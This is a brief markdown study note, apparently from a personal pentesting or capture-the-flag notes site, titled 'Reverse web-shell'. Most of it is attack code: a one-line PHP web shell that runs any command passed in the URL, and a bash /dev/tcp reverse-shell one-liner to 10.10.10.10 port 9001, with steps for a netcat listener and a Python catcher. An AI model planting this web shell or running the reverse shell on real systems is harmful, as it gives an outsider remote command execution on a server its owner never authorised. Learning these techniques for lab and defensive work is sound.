 ```yaml
---
date: "2024-07-22T09:10:24+02:00"
draft: false
title: Reverse web-shell
---
```


    ## Reverse shell 

-   By passing the php file we can open the reverse shell

``` php
<?php system($_GET["cmd"]);?>
```

1.  Checkout [reverse shell](https://www.revshells.com/)
2.  Use dev tcp to open the shell since \[\[netcat\]\] is not avaiable
    1.  ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3.  Create the listner with the \[\[netcat\]\]
4.  Create a **python server** that catches the shell and enables
    interactivity

> \[!quote\] [bash_MAIN](/Notes/posts/Linux/commands/bash_MAIN)
